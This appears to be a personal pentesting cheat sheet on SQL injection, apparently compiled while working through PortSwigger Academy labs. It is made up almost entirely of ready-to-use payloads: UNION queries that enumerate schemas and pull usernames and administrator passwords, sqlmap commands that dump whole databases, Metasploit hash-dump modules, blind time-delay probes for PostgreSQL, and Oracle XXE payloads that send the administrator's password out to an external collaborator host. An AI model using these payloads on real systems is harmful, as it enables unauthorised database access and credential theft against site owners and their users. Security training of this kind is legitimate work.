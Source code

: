 # SQL Injection

# Identify DBMS

## Manual detection of SQLi vulnerability

Test every entry points :

- single quote '
- boolean condition OR 1=1, OR 1=2 and look for difference in application behavior

# Manual database dumping

- Determine nb of columns (will fail if number > number of columns)

```
# ORDER BY method
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# UNION method
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

```

- Find columns with string data (will fail if 'a' is on a non-string column)

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

```

- Retrieive database list

```
' UNION SELECT NULL,NULL,NULL,schema_name FROM information_schema.schemata'

```

- Retrieve table list

```
' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables WHERE table_schema="database"'

```

- Retrieve column list

```
' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_name="table"'

```

- Retrieve data from tables

```
' UNION SELECT NULL,NULL,NULL,username FROM database.table'
' UNION SELECT NULL,NULL,NULL,username FROM database.table WHERE id=1'
' UNION SELECT NULL,NULL,NULL,password FROM database.table WHERE username="admin"'
' UNION SELECT NULL,NULL,NULL,username FROM database.table LIMIT 1'
' UNION SELECT NULL,NULL,NULL,username FROM database.table LIMIT 1 OFFSET 2'

```

# sqlmap

- Basic SQLMap

```
sqlmap -u "<http://url/avec?param=true>" --batch
sqlmap -u "<http://url/avec?param=true>" --batch --cookie "KEY=Value"
# First: Save a raw request with Burpsuite or ZAP
sqlmap -r request.raw --batch --random-agent

```

- Dump database content

```
sqlmap -r request.raw --batch --random-agent -D database --dump

```

# metasploit

## Useful modules

- auxiliary/scanner/mysql/mysql_hashdump
- scanner/mysql/mysql_schemadump

## Blind SQLi with conditional errors

## Oracle

- Solution from lab @ portswigger academy
[https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

# Blind SQLi with time delay

## PostgreSQL

```
'||pg_sleep(10)--

'||CASE WHEN ((SELECT COUNT(*) FROM USERS WHERE username='administrator')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--

'||(SELECT CASE WHEN SUBSTR(password,1,20)='ra52nk91w82bclznk33j§a§' THEN pg_sleep(5) ELSE pg_sleep(0) END username FROM USERS WHERE username='administrator')--

```

# SQLi out of band

## Oracle

```
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//fziulre2bwio5m8oo8sinod3uu0xom.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

x'+UNION+SELECT+extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(SELECT+password+FROM+users+WHERE+username+=+'administrator')||'.8enn0ktvqpxhkfnh317b2hsw9nfs3h.burpcollaborator.net/"> %25remote%3b]>'),'/l') FROM dual--

```

# Links

---

## Guides

- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Writeups

-